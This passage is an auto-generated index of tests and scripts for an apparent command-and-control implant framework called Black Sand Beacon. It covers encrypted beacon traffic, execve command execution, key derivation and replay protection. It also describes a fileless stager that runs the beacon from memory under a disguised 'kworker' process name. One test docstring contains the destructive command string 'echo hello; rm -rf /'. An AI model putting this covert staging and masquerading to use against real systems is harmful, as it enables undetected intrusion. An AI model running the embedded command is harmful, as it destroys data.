cannot live in main() alone -- another test runs `make clean` and
wipes build/ mid-session. Rebuilding on staleness keeps both entry
points (pytest and `python3 tests/test_crypto.py`) working.*
- `run` (line 59) `def run(plaintext, key_hex)`
- `test_short` (line 68) `def test_short()`
- `test_block_boundary` (line 72) `def test_block_boundary()`
- `test_longer_than_block` (line 77) `def test_longer_than_block()`
- `test_known_ciphertext` (line 83) `def test_known_ciphertext()`
- `test_python_can_decrypt_c_ciphertext` (line 104) `def test_python_can_decrypt_c_ciphertext()` - *The Python C2 server must be able to decrypt C-encrypted
commands. We feed a known key+plaintext through the C harness,
extract the ciphertext, then decrypt with Python and check we
recover the original plain.*
- `test_c_replay_encrypt_python_decrypt` (line 136) `def test_c_replay_encrypt_python_decrypt()` - *Cross-language test: C aes256_cfb_encrypt_replay -> Python decrypt_data_replay.

This verifies the replay protection (counter + timestamp prefix) works
identically across C (tiny-AES-c CFB) and Python (cryptography CFB).*
- `main` (line 167) `def main()`

#### `test_execve_command.py`
**Path:** `tests/test_execve_command.py`
**File Doc:** *Tests for Command Execution via execve (Contract: Command Execution via execve)  BDD Scenarios: 1. Given a simple command, when executed via execve, then output is captured 2. Given a command with arguments, when executed, then argv is properly parsed 3. Given a command with quoted arguments, when executed, then quotes are handled 4. Given a non-existent command, when executed, then error is returned 5. Given a command that writes to stderr, when executed, then stderr is captured 6. Given shell metacharacters (|, ;, &, $(), etc.), when executed, then they are NOT interpreted*

**Classes:**
- `TestExecveCommandExecution` (line 25) `class TestExecveCommandExecution` - *Test execve-based command execution (C implementation).*
- `TestExecveMutationResistance` (line 57) `class TestExecveMutationResistance` - *Tests designed to kill mutants in execve command execution.*

**Methods:**
- `test_simple_command_execution` (line 28) `def test_simple_command_execution(self)` - *Given simple command 'echo hello', when executed, then output is 'hello'.*
- `test_command_with_arguments` (line 34) `def test_command_with_arguments(self)` - *Given 'echo hello world', when executed, then arguments are passed correctly.*
- `test_quoted_arguments` (line 38) `def test_quoted_arguments(self)` - *Given 'echo "hello world"', when executed, then argument is 'hello world'.*
- `test_non_existent_command` (line 42) `def test_non_existent_command(self)` - *Given non-existent command, when executed, then error returned.*
- `test_stderr_capture` (line 46) `def test_stderr_capture(self)` - *Given command writing to stderr, when executed, then stderr captured.*
- `test_shell_metacharacters_not_interpreted` (line 50) `def test_shell_metacharacters_not_interpreted(self)` - *Given 'echo hello; rm -rf /', when executed, then entire string is single argument.*
- `test_no_system_call` (line 60) `def test_no_system_call(self)` - *Mutant: using system() instead of execve(). Test: system() is NOT used.*
- `test_no_popen_call` (line 67) `def test_no_popen_call(self)` - *Mutant: using popen() instead of execve(). Test: popen() is NOT used.*
- `test_argv_array_not_string` (line 71) `def test_argv_array_not_string(self)` - *Mutant: passing command string to execve. Test: argv array is used.*
- `test_shell_metacharacters_escaped` (line 77) `def test_shell_metacharacters_escaped(self)` - *Mutant: shell metacharacters passed to shell. Test: they are literal.*

#### `test_hkdf_key_derivation.py`
**Path:** `tests/test_hkdf_key_derivation.py`
**File Doc:** *Tests for HKDF Key Derivation (Contract: HKDF Key Derivation)  BDD Scenarios: 1. Given a config with master_key_hex, when loaded, then encryption_key and hmac_key are derived via HKDF-SHA256 2. Given a config without master_key_hex but with aes_key_hex, when loaded, then keys are derived from aes_key_hex (backward compat) 3. Given neither master_key_hex nor aes_key_hex, when loaded, then ValueError is raised 4. Given same master_key_hex, when derived in C and Python, then keys match exactly 5. Given different info strings, when derived, then different keys are produced (key separation)*

**Classes:**
- `TestHKDFKeyDerivationConfig` (line 24) `class TestHKDFKeyDerivationConfig` - *Test config loading for HKDF key derivation.*
- `TestHKDFDerivation` (line 87) `class TestHKDFDerivation` - *Test HKDF key derivation logic.*
- `TestHKDFConfigIntegration` (line 159) `class TestHKDFConfigIntegration` - *Test that load_config returns derived keys.*
- `TestHKDFMutationResistance` (line 220) `class TestHKDFMutationResistance` - *Tests designed to kill mutants.*

**Methods:**
- `test_config_loads_master_key_hex` (line 27) `def test_config_loads_master_key_hex(self)` - *Given config with master_key_hex, when loaded, then master_key_hex is stored.*
- `test_config_loads_aes_key_hex_backward_compat` (line 40) `def test_config_loads_aes_key_hex_backward_compat(self)` - *Given config with only aes_key_hex (legacy), when loaded, then aes_key_hex is stored.*
- `test_config_rejects_missing_both_keys` (line 53) `def test_config_rejects_missing_both_keys(self)` - *Given config with both master_key_hex and aes_key_hex explicitly empty, when loaded, then ValueError is raised.*
- `test_config_validates_master_key_hex_length` (line 64) `def test_config_validates_master_key_hex_length(self)` - *Given config with invalid master_key_hex length, when loaded, then ValueError is raised.*
- `test_config_validates_master_key_hex_hex_chars` (line 75) `def test_config_validates_master_key_hex_hex_chars(self)` - *Given config with non-hex master_key_hex, when loaded, then ValueError is raised.*
- `test_hkdf_derives_encryption_and_hmac_keys` (line 90) `def test_hkdf_derives_encryption_and_hmac_keys(self)` - *Given a master key, when HKDF is applied, then two independent 32-byte keys are produced.*
- `test_hkdf_deterministic` (line 123) `def test_hkdf_deterministic(self)` - *Given same master key and salt, when HKDF is applied twice, then keys are identical.*
- `test_hkdf_different_info_produces_different_keys` (line 137) `def test_hkdf_different_info_produces_different_keys(self)` - *Given same master key but different info, when HKDF is applied, then keys differ.*
- `test_load_config_returns_derived_keys_when_master_key_present` (line 162) `def test_load_config_returns_derived_keys_when_master_key_present(self)` - *Given config with master_key_hex, when load_config is called, then derived keys are in result.*
- `test_load_config_derives_from_aes_key_when_no_master_key` (line 180) `def test_load_config_derives_from_aes_key_when_no_master_key(self)` - *Given config with only aes_key_hex, when load_config is called, then keys derived from aes_key_hex.*
- `test_c_and_python_derive_same_keys` (line 196) `def test_c_and_python_derive_same_keys(self)` - *Given same master key, when derived in C and Python, then keys match exactly.*
- `test_salt_is_constant_not_mutated` (line 223) `def test_salt_is_constant_not_mutated(self)` - *Mutant: salt changed to different value. Test: salt must be 'blacksandbeacon-v2'.*
- `test_info_strings_are_enc_and_hmac_not_mutated` (line 238) `def test_info_strings_are_enc_and_hmac_not_mutated(self)` - *Mutant: info strings swapped or changed. Test: 'enc' and 'hmac' produce different keys.*
- `test_key_length_is_32_bytes_not_mutated` (line 263) `def test_key_length_is_32_bytes_not_mutated(self)` - *Mutant: key length changed to 16 or 64. Test: keys must be 32 bytes.*
- `test_sha256_not_mutated_to_sha1_or_md5` (line 277) `def test_sha256_not_mutated_to_sha1_or_md5(self)` - *Mutant: hash algorithm changed. Test: HKDF uses SHA256.*

#### `test_install_deploy.py`
**Path:** `tests/test_install_deploy.py`
**File Doc:** *End-to-end test for the "make beacon && ./build/beacon" workflow.  After `make clean && make beacon bofs`, the operator expects: - build/beacon          runnable binary (mode 0755) - build/config.json     operator-only (mode 0600) - build/bof/*.x64.o     5 BOFs ready to copy to the C2  Running the binary from any CWD should pick up build/config.json (the binary-relative search path).*

**Functions:**
- `make_all` (line 23) `def make_all()` - *Clean and build everything, return nothing.*
- `run_beacon` (line 29) `def run_beacon(binary, cwd)` - *Run the beacon from `cwd` and return (output, exit_code).

exit_code is None when the 3s cap tripped, which is the expected
path: the beacon polls the C2 forever, so it never exits on its
own. (The bare main() runner handled TimeoutExpired inline;
pytest surfaces it as a failure, so it is normalised here.)*
- `test_build_beacon_lands_alongside_config` (line 56) `def test_build_beacon_lands_alongside_config()` - *The point of this whole iteration: `make beacon` leaves
a runnable binary with its config next to it, no env vars
or extra steps required.*
- `test_staged_files_have_correct_modes` (line 67) `def test_staged_files_have_correct_modes()`
- `test_staged_beacon_runs_from_any_cwd` (line 75) `def test_staged_beacon_runs_from_any_cwd()` - *Drop the operator in /tmp; the staged beacon should still
find build/config.json via the binary-relative search path.*
- `test_staged_bofs_are_present` (line 90) `def test_staged_bofs_are_present()`
- `test_clean_removes_everything` (line 103) `def test_clean_removes_everything()` - *make clean must wipe build/ — including the staged config.json —
but leave config/config.json (the operator's copy) alone.

This is the last test that runs, so we leave the operator with a
fresh deliverable tree afterwards. `make clean` is destructive
and the operator's only copy of build/ is whatever the previous
test left behind; rebuilding here guarantees `./build/beacon`
and the staged BOFs are present after `make test` finishes.*
- `main` (line 129) `def main()`

#### `test_iv_generation.py`
**Path:** `tests/test_iv_generation.py`
**File Doc:** *Tests for IV Generation with Entropy Verification (Contract: IV Generation with Entropy Verification)  BDD Scenarios: 1. Given a beacon encrypting data, when RAND_bytes succeeds, then IV is generated from OpenSSL 2. Given a beacon encrypting data, when RAND_bytes fails, then fallback to getrandom(2) 3. Given a beacon encrypting data, when both RAND_bytes and getrandom fail, then encryption aborts (fail-closed) 4. Given Python encrypting data, when os.urandom is used, then it blocks until entropy available 5. Given invalid IV (all zeros), when used, then encryption fails*

**Classes:**
- `TestIVGenerationConfig` (line 26) `class TestIVGenerationConfig` - *Test config loading for IV-related settings.*
- `TestIVGenerationPython` (line 42) `class TestIVGenerationPython` - *Test IV generation in Python encryption functions.*
- `TestIVGenerationCBehavior` (line 101) `class TestIVGenerationCBehavior` - *Test expected C behavior for IV generation (documented for implementation).*
- `TestIVMutationResistance` (line 128) `class TestIVMutationResistance` - *Tests designed to kill mutants in IV generation.*

**Methods:**
- `test_config_defaults_include_iv_settings` (line 29) `def test_config_defaults_include_iv_settings(self)` - *Given default config, when loaded, then IV settings are present.*
- `test_encrypt_data_uses_os_urandom_for_iv` (line 45) `def test_encrypt_data_uses_os_urandom_for_iv(self)` - *Given encrypt_data is called, when IV is generated, then os.urandom(16) is used.*
- `test_encrypt_data_iv_is_16_bytes` (line 58) `def test_encrypt_data_iv_is_16_bytes(self)` - *Given encrypt_data is called, when IV is generated, then it's exactly 16 bytes.*
- `test_decrypt_data_handles_iv_correctly` (line 73) `def test_decrypt_data_handles_iv_correctly(self)` - *Given decrypt_data is called, when IV is extracted, then it's 16 bytes.*
- `test_encrypt_decrypt_roundtrip_with_different_ivs` (line 85) `def test_encrypt_decrypt_roundtrip_with_different_ivs(self)` - *Given multiple encryptions of same data, when IVs differ, then ciphertexts differ.*
- `test_rand_bytes_success_path` (line 104) `def test_rand_bytes_success_path(self)` - *Documentation: When RAND_bytes returns 1, IV is used directly.*
- `test_getrandom_fallback_path` (line 113) `def test_getrandom_fallback_path(self)` - *Documentation: When RAND_bytes fails, getrandom(2) is used.*
- `test_fail_closed_on_entropy_failure` (line 121) `def test_fail_closed_on_entropy_failure(self)` - *Documentation: When both entropy sources fail, encryption aborts.*
- `test_iv_length_is_16_bytes_not_mutated` (line 131) `def test_iv_length_is_16_bytes_not_mutated(self)` - *Mutant: IV length changed to 8 or 32. Test: IV must be 16 bytes for AES-CFB.*
- `test_iv_not_all_zeros` (line 146) `def test_iv_not_all_zeros(self)` - *Mutant: IV hardcoded to zeros. Test: IV must be random, not static.*
- `test_urandom_blocks_on_low_entropy` (line 163) `def test_urandom_blocks_on_low_entropy(self)` - *Mutant: os.urandom replaced with non-blocking random. Test: os.urandom blocks.*
- `test_rand_bytes_return_value_checked` (line 171) `def test_rand_bytes_return_value_checked(self)` - *Mutant: RAND_bytes return value ignored. Test: Return value must be checked.*
- `test_getrandom_flags_grnd_nonblock` (line 177) `def test_getrandom_flags_grnd_nonblock(self)` - *Mutant: getrandom called without GRND_NONBLOCK. Test: Must use GRND_NONBLOCK.*

#### `test_replay_protection.py`
**Path:** `tests/test_replay_protection.py`
**File Doc:** *Tests for Replay Protection (Contract: Replay Protection)  BDD Scenarios: 1. Given a beacon sending a command, when it encrypts the payload, then it includes counter + timestamp 2. Given a server receiving a payload, when counter <= last_seen_counter, then it rejects (replay) 3. Given a server receiving a payload, when timestamp > now + 60s, then it rejects (future timestamp) 4. Given a server receiving a payload, when timestamp < now - 300s, then it rejects (stale timestamp) 5. Given a server receiving a valid payload, when counter > last_seen_counter and timestamp in window, then it accepts 6. Given a beacon restart, when counter resets, then server accepts new counter (new session)*

**Classes:**
- `TestReplayProtectionConfig` (line 29) `class TestReplayProtectionConfig` - *Test config loading for replay protection.*
- `TestReplayProtectionPayloadFormat` (line 63) `class TestReplayProtectionPayloadFormat` - *Test the encrypted payload format with counter + timestamp.*
- `TestReplayProtectionServerVerification` (line 81) `class TestReplayProtectionServerVerification` - *Test server-side replay verification logic.*
- `TestReplayProtectionBeaconBehavior` (line 108) `class TestReplayProtectionBeaconBehavior` - *Test beacon-side counter management.*
- `TestReplayProtectionIntegration` (line 124) `class TestReplayProtectionIntegration` - *Integration tests for full replay protection flow.*
- `TestReplayProtectionMutationResistance` (line 140) `class TestReplayProtectionMutationResistance` - *Tests designed to kill mutants in replay protection.*

**Methods:**
- `test_config_defaults_include_replay_window` (line 32) `def test_config_defaults_include_replay_window(self)` - *Given default config, when loaded, then replay_window_seconds defaults to 300.*
- `test_config_custom_replay_window` (line 43) `def test_config_custom_replay_window(self)` - *Given config with custom replay_window_seconds, when loaded, then value is used.*
- `test_config_replay_window_validation_positive` (line 53) `def test_config_replay_window_validation_positive(self)` - *Given config with negative replay_window_seconds, when loaded, then ValueError.*
- `test_encrypt_includes_counter_and_timestamp` (line 66) `def test_encrypt_includes_counter_and_timestamp(self)` - *Given encrypt_data with replay data, when called, then payload has iv + counter + timestamp + ciphertext.*
- `test_payload_structure_iv_16_counter_8_timestamp_8_ciphertext` (line 75) `def test_payload_structure_iv_16_counter_8_timestamp_8_ciphertext(self)` - *Document expected payload structure: iv(16) || counter(8, LE) || timestamp(8, LE) || ciphertext.*
- `test_server_tracks_last_seen_counter_per_client` (line 84) `def test_server_tracks_last_seen_counter_per_client(self)` - *Given C2State, when handling reports, then it tracks last_seen_counter per client_id.*
- `test_server_rejects_replay_counter_le_last_seen` (line 90) `def test_server_rejects_replay_counter_le_last_seen(self)` - *Given server with last_seen_counter=5, when receiving counter=5, then rejects.*
- `test_server_rejects_future_timestamp_gt_now_plus_60` (line 95) `def test_server_rejects_future_timestamp_gt_now_plus_60(self)` - *Given server receiving timestamp in future (> now + 60s), then rejects.*
- `test_server_rejects_stale_timestamp_lt_now_minus_window` (line 99) `def test_server_rejects_stale_timestamp_lt_now_minus_window(self)` - *Given server receiving timestamp too old (< now - replay_window), then rejects.*
- `test_server_accepts_valid_counter_and_timestamp` (line 103) `def test_server_accepts_valid_counter_and_timestamp(self)` - *Given server with valid counter > last_seen and timestamp in window, then accepts.*
- `test_beacon_increments_counter_per_message` (line 111) `def test_beacon_increments_counter_per_message(self)` - *Given beacon sending multiple messages, when each is sent, then counter increments.*
- `test_beacon_resets_counter_on_restart` (line 115) `def test_beacon_resets_counter_on_restart(self)` - *Given beacon restart, when it starts, then counter resets to 0.*
- `test_beacon_includes_timestamp_in_payload` (line 119) `def test_beacon_includes_timestamp_in_payload(self)` - *Given beacon encrypting, when creating payload, then includes current timestamp.*
- `test_full_roundtrip_with_replay_protection` (line 127) `def test_full_roundtrip_with_replay_protection(self)` - *Given beacon and server with replay protection, when beacon sends command, then server accepts.*
- `test_replay_attack_detected` (line 131) `def test_replay_attack_detected(self)` - *Given attacker captures and resends payload, when server receives duplicate, then rejects.*
- `test_stale_payload_rejected` (line 135) `def test_stale_payload_rejected(self)` - *Given old payload (timestamp > 300s ago), when server receives it, then rejects.*
- `test_counter_comparison_not_mutated` (line 143) `def test_counter_comparison_not_mutated(self)` - *Mutant: counter <= last_seen changed to counter < last_seen. Test: <= correctly rejects equal counter.*
- `test_timestamp_future_check_not_mutated` (line 150) `def test_timestamp_future_check_not_mutated(self)` - *Mutant: timestamp > now + 60 changed to timestamp >= now + 60. Test: > correctly rejects at exactly +60.*
- `test_timestamp_stale_check_not_mutated` (line 161) `def test_timestamp_stale_check_not_mutated(self)` - *Mutant: timestamp < now - window changed to timestamp <= now - window. Test: < correctly rejects at exactly window.*
- `test_counter_increment_not_mutated` (line 173) `def test_counter_increment_not_mutated(self)` - *Mutant: counter++ changed to counter-- or removed. Test: counter must increment.*
- `test_counter_reset_on_new_session` (line 179) `def test_counter_reset_on_new_session(self)` - *Mutant: counter not reset. Test: new beacon session starts at 0.*
- `test_hmac_covers_counter_and_timestamp` (line 184) `def test_hmac_covers_counter_and_timestamp(self)` - *Mutant: HMAC only covers ciphertext. Test: HMAC must cover iv + counter + timestamp + ciphertext.*

#### `test_runtime_random.py`
**Path:** `tests/test_runtime_random.py`
**File Doc:** *Tests for random per-run runtime values (Contract: random staging).  BDD Scenarios: 1. Given no port/key/token/client_id in config or env, when the server loads its runtime config, then all are generated at random and reported in cfg["generated"] 2. Given explicit values in config.json, when loaded, then nothing is generated (operator intent wins) 3. Given env overrides, when loaded, then env wins over generation 4. Given a generated key, when /stage/config is fetched, then the served config carries the runtime key/url/client_id and no server section*

**Classes:**
- `TestRandomGeneration` (line 44) `class TestRandomGeneration`
- `TestStageConfigCarriesRuntimeValues` (line 99) `class TestStageConfigCarriesRuntimeValues`

**Functions:**
- `lrc` (line 33) `def lrc(monkeypatch, tmp_path, raw, env)`

**Methods:**
- `test_all_generated_when_nothing_provided` (line 45) `def test_all_generated_when_nothing_provided(self, monkeypatch, tmp_path)`
- `test_generated_key_parities` (line 54) `def test_generated_key_parities(self, monkeypatch, tmp_path)`
- `test_random_url_points_at_generated_port` (line 62) `def test_random_url_points_at_generated_port(self, monkeypatch, tmp_path)`
- `test_two_runs_differ` (line 66) `def test_two_runs_differ(self, monkeypatch, tmp_path)`
- `test_provided_values_preserved` (line 73) `def test_provided_values_preserved(self, monkeypatch, tmp_path)`
- `test_env_wins` (line 87) `def test_env_wins(self, monkeypatch, tmp_path)`
- `test_explicit_token_no_generation` (line 92) `def test_explicit_token_no_generation(self, monkeypatch, tmp_path)`
- `test_served_config_matches_runtime` (line 100) `def test_served_config_matches_runtime(self, monkeypatch, tmp_path)`
- `test_file_config_values_win_when_provided` (line 112) `def test_file_config_values_win_when_provided(self, monkeypatch, tmp_path)`

#### `test_stage.py`
**Path:** `tests/test_stage.py`
**File Doc:** *Tests for diskless staging endpoints (Contract: fileless staging).  BDD Scenarios: 1. Given a valid token, when staged, then the packed ELF/config decodes back to the original bytes (server<->stager HKDF parity) 2. Given no key material on the wire, when the response is captured, then it cannot be decoded without the token 3. Given a missing/wrong token, when staged, then STAGE_FORBIDDEN (fail closed) 4. Given no stage_token configured, when staged, then STAGE_FORBIDDEN 5. Given missing/non-ELF beacon, when staged, then STAGE_UNAVAILABLE 6. Given the HTTP routing, when a stage path arrives, then it reaches the handler 7. Given build_stage_oneliner, when built, then it embeds URL and token 8. Given TLS configured, when the stager connects over TLS, then it works end-to-end (skipped if openssl is unavailable)*

**Classes:**
- `TestStageCodec` (line 66) `class TestStageCodec`
- `TestStageToken` (line 102) `class TestStageToken`
- `TestStageBeacon` (line 120) `class TestStageBeacon`
- `TestStageConfig` (line 144) `class TestStageConfig`
- `TestStageRouting` (line 165) `class TestStageRouting`
- `TestStageOneliner` (line 197) `class TestStageOneliner`
- `TestStageTLSEndToEnd` (line 228) `class TestStageTLSEndToEnd`

**Functions:**
- `make_state` (line 54) `def make_state(tmpdir, token, beacon)`
- `_self_signed_cert` (line 210) `def _self_signed_cert(td)` - *Generate a self-signed cert/key pair with openssl; None if unavailable.*

**Methods:**
- `test_encode_decode_roundtrip` (line 67) `def test_encode_decode_roundtrip(self)`
- `test_no_key_material_on_wire` (line 71) `def test_no_key_material_on_wire(self)` - *Given a captured response, when decoded without the token, then fail.*
- `test_keys_derived_deterministically_from_token` (line 78) `def test_keys_derived_deterministically_from_token(self)`
- `test_server_payload_hkdf_parity` (line 84) `def test_server_payload_hkdf_parity(self)` - *Server encode must be exactly what the stager payload decodes.*
- `test_missing_token_forbidden` (line 103) `def test_missing_token_forbidden(self, tmp_path)`
- `test_wrong_token_forbidden` (line 107) `def test_wrong_token_forbidden(self, tmp_path)`
- `test_no_token_configured_fails_closed` (line 111) `def test_no_token_configured_fails_closed(self, tmp_path)`
- `test_unknown_kind_forbidden` (line 115) `def test_unknown_kind_forbidden(self, tmp_path)`
- `test_beacon_roundtrip` (line 121) `def test_beacon_roundtrip(self, tmp_path)`
- `test_beacon_file_missing` (line 129) `def test_beacon_file_missing(self, tmp_path)`
- `test_beacon_not_elf` (line 133) `def test_beacon_not_elf(self, tmp_path)`
- `test_beacon_path_none` (line 139) `def test_beacon_path_none(self, tmp_path)`
- `test_config_roundtrip` (line 145) `def test_config_roundtrip(self, tmp_path, monkeypatch)`
- `test_config_always_available` (line 157) `def test_config_always_available(self, tmp_path, monkeypatch)`
- `test_http_get_beacon_routed` (line 166) `def test_http_get_beacon_routed(self, tmp_path)`
- `test_http_get_config_routed` (line 175) `def test_http_get_config_routed(self, tmp_path, monkeypatch)`
- `test_wrong_token_routed_rejected` (line 184) `def test_wrong_token_routed_rejected(self, tmp_path)`
- `test_legacy_selector_routed` (line 189) `def test_legacy_selector_routed(self, tmp_path)`
- `test_oneliner_embeds_url_and_token` (line 198) `def test_oneliner_embeds_url_and_token(self, tmp_path)`
- `test_tls_roundtrip` (line 229) `def test_tls_roundtrip(self, tmp_path, monkeypatch)`

### SH (2 files)

#### `stage_oneliner.sh`
**Path:** `c2/stage_oneliner.sh`
**File Doc:** *Black Sand Beacon diskless stager (Stage-0 one-liner).  Fetches the packed beacon ELF + config from the C2 staging endpoints and execs the beacon from an anonymous memfd. Never touches disk.  Environment: BSB_STAGE_URL          e.g. https://c2.example:7070 BSB_STAGE_TOKEN        must match server.stage_token in config.json BSB_STAGE_ARGV0        optional argv[0] disguise (default kworker/u8:2) BSB_STAGE_INSECURE_TLS set to 1 to skip TLS verification (lab only)  Usage: bash stage_oneliner.sh bash stage_oneliner.sh --print   # print the copy-paste one-liner*

*No symbols extracted*

#### `install.sh`
**Path:** `install.sh`
**File Doc:** *install.sh - Install build deps and build everything.  Idempotent: safe to run on a fresh checkout. Tested on Debian 12 and Ubuntu 22.04.  For day-to-day development, prefer running `make` directly so errors are reported per-target. This script is for first-time setup and CI parity.*

*No symbols extracted*
